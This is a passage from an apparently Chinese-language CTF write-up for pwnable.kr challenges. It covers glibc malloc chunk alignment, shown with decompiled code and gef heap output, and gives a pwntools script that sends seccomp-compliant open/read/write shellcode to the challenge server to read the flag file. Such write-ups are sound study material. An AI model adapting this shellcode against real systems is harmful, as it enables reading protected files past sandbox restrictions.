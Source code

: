 结合`/usr/lib/debug/lib/i386-linux-gnu/libc-2.27.so`的[debug信息](https://stackoverflow.com/questions/10000335/how-to-use-debug-version-of-libc)，反汇编libc的`_int_malloc`函数，发现这里确实是以16字节对齐来确定size的，稍微有些让本地测试的人有些迷惑哦：

```c
  if ( a2 + 19 <= 0xF )
  {
    v3 = 0;
    v2 = 16;
  }
  else
  {
    v3 = (a2 + 19) & 0xFFFFFFF0;
    v2 = v3;
    LOBYTE(v3) = v3 > 0xFFFFFFDF;
```

而在ubuntu 14.04 x86的平台上编译运行时，`mem`地址和`MALLOC_ALIGNMENT`均为8字节对齐，所以在处理`8 16 32 64 ...`这样的序列时就会报错：

```
//malloc(32)
gef➤  heap chunk 0x0804c030
Chunk(addr=0x804c030, size=0x28, flags=PREV_INUSE)
Chunk size: 40 (0x28)
Usable size: 36 (0x24)
Previous chunk size: 0 (0x0)
PREV_INUSE flag: On
IS_MMAPPED flag: Off
NON_MAIN_ARENA flag: Off
```

## asm

此题目考察汇编知识。借助[seccomp](https://veritas501.space/2018/05/05/seccomp%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)限制我们只能使用`open`、`read`、`write`、`exit`、`exit_group`这几个系统调用，来完成读取flag文件的shellcode操作。捷径的方法是借用`pwnlib.shellcraft`[构造](https://pwntools.readthedocs.io/en/stable/shellcraft.html#module-pwnlib.shellcraft)shellcode，其使用的思路在手工构造时还是很值得借鉴的，比如文档例子中的对要读取的文件名做[异或处理](https://pwntools.readthedocs.io/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.syscall)，以及使用寄存器作为参数构造[连续的](https://pwntools.readthedocs.io/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.itoa)系统调用。解题的构造脚本如下：

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

r = remote('pwnable.kr', 9026)
r.recvuntil('shellcode: ')

sc = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
sc += shellcraft.read('rax', 'rsp', 32)
sc += shellcraft.write(1, 'rsp', 32)

r.sendline(asm(sc))
print r.recvline()
```
